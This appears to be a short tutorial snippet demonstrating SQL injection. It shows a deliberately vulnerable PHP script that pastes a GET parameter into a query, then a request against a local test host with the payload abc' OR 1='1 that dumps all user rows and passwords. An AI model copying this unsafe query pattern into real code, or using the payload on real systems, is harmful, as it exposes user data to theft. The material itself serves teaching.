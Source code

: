 Vulnerable PoC code:
```php
$mysqli = new mysqli(
	"mysql",
	getenv('DB_APP_USER'), 
	getenv('DB_APP_PASS'), 
	getenv('DB_NAME')
);

// VULNERABLE
$query = "SELECT * FROM users WHERE user='". $_GET['user'] ."';";
print_r($query);

$result = $mysqli->query($query);

if ($result) {
	print_r($result->fetch_all());
} else {
	echo "Could not run SQL query!";
}

$mysqli->close();
```

Request with payload `abc' OR 1='1"`:
```
$ http "https://webdev.local/index.php?user=abc' OR 1='1" --verify=no -b
SELECT * FROM users WHERE user='abc' OR 1='1';Array
(
    [0] => Array
        (
            [0] => 1
            [1] => user1
            [2] => pass1
        )

    [1] => Array
        (
            [0] => 2
            [1] => user2
            [2] => pass2
        )

    [2] => Array
        (
            [0] => 3
            [1] => user3
            [2] => pass3
        )

)
```
Query will return all users in the DB - evaluated as `true` in the `WHERE` clause (`false OR true`).
